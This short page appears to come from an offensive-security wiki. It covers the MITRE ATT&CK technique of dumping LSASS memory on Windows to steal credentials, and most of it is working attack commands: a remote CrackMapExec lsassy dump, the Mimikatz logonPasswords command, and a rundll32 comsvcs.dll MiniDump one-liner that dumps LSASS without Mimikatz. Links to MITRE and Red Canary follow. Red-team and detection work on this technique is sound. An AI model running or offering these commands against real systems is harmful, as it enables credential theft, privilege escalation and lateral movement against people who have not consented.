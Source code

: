```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.001
---
```


# LSASS Memory

> Adversaries commonly abuse the [Local Security Authority Subsystem Service](https://attack.mitre.org/techniques/T1003/001/) (LSASS) to dump credentials for privilege escalation, data theft, and lateral movement. The process is a fruitful target for adversaries because of the sheer amount of sensitive information it stores in memory.

### Dumping LSASS Memory

```bash
# Dumping LSASS remotely with CrackMapExec
crackmapexec smb $ip -u $username -p $password -M lsassy

# Dumping LSASS with Mimikatz
sekurlsa::logonPasswords
```

### Dumping LSASS without Mimikatz

```bash
## https://twitter.com/inversecos/status/1450331995112804358?s=20&t=rMzsQI6ENH2SYVVaTYTqAA
rundll32.exe comsvcs.dll, MiniDump (Get-Process lsass).Id Temp\output.dmp full;Wait-Process -Id (Get-Process rundll32).id
```

### References

{% embed url="https://redcanary.com/threat-detection-report/techniques/lsass-memory/" %}

{% embed url="https://attack.mitre.org/techniques/T1003/001/" %}
